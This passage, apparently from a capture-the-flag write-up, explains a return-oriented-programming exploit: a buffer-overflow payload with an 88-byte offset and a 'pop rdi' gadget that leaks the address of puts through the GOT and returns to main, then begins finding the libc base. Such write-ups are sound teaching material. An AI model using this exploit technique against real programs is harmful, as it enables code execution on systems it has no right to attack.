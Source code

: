 ![alt text](images/image-7-2.png)

And that is `0x0000000000401263: pop rdi; ret;`

```
offset = 88
pop_rdi = 0x0000000000401263

payload  = b'A' * offset + p64(pop_rdi) + p64(exe.got.puts) + p64(exe.plt.puts)
payload += p64(exe.sym.main)
sla(b'\n', payload)
```

![alt text](images/image-9-2.png)

So we leak 6 address bytes. We see that at the end of the payload there is `exe.sym.main` so that after the leak is complete, the program will run again without ending. Next, we use the 6 leaked bytes to find the libc base address.

![alt text](images/image-8-2.png)